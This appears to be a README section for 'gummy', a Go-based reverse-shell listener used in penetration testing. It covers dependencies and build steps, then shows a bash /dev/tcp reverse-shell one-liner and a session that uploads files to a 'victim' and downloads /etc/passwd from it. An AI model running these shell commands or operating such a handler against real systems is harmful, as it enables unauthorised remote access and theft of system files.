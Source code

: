 **Dependencies:**
- Go 1.21+ (check with `go version`)
- `github.com/chzyer/readline` - Enhanced CLI input
- `github.com/charmbracelet/lipgloss` - Terminal styling
- `github.com/charmbracelet/bubbletea` - Interactive components (confirmations)
- `github.com/creack/pty` - PTY handling
- `golang.org/x/term` - Terminal utilities

**Build & Run:**
```fish
# Development
go run ./cmd/gummy -p 4444

# Build binary
go build -o gummy

# Run binary
./gummy -p 4444 -h 0.0.0.0
```

**Testing Connection:**
```fish
# In another terminal
nc localhost 4444

# Or real reverse shell
bash -i >& /dev/tcp/localhost/4444 0>&1
```

**Using File Transfer:**
```fish
# Start gummy
./gummy -p 4444

# In another terminal, connect reverse shell
bash -i >& /dev/tcp/localhost/4444 0>&1

# In gummy:
󰗣 gummy ❯ list
Active sessions:
  1 → 127.0.0.1:xxxxx

󰗣 gummy ❯ use 1
 Selected session 1

# Upload file to victim
󰗣 gummy ❯ upload /tmp/test.txt /tmp/uploaded.txt
 Uploading test.txt (42 B)...
 [████████████████████████████████████████] 100% (1/1 chunks)
✅ Upload complete! (MD5: 5d41402a)

# Download file from victim
󰗣 gummy ❯ download /etc/passwd
 Downloading passwd...
 Downloaded 2.1 KB
✅ Download complete! Saved to: passwd (MD5: 8b1a9953)
```
